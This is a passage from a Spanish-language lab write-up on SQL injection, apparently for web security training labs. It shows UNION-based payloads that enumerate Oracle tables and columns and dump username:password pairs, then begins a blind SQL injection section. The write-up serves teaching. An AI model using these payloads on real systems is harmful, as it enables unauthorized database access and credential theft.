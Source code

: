 `' union select NULL,table_name from all_tables where owner = 'PETER'-- -`

![](/assets/images/ports-writeup-sqli/web49.png)

Ahora vamos a dumpear las columnas `' union select NULL,column_name from all_tab_columns where table_name = 'USERS_YUXJGI'-- -`

![](/assets/images/ports-writeup-sqli/web50.png)

Con la siguiente query vamos ver las credenciales `' union select NULL,USERNAME_YRXBVR||':'||PASSWORD_QLAFCK from USERS_YUXJGI-- -`

![](/assets/images/ports-writeup-sqli/web51.png)

Ahora si nos conectamos pues terminas el laboratorio y bueno a por el siguiente

## Blind SQL injection with conditional responses

Esta inyección es basada en la respuesta y bueno tenemos la misma web así que vamos a volver a elegir una categoría

Si ponemos una **'** vemos que desaparecen las cosas

![](/assets/images/ports-writeup-sqli/web52.png)
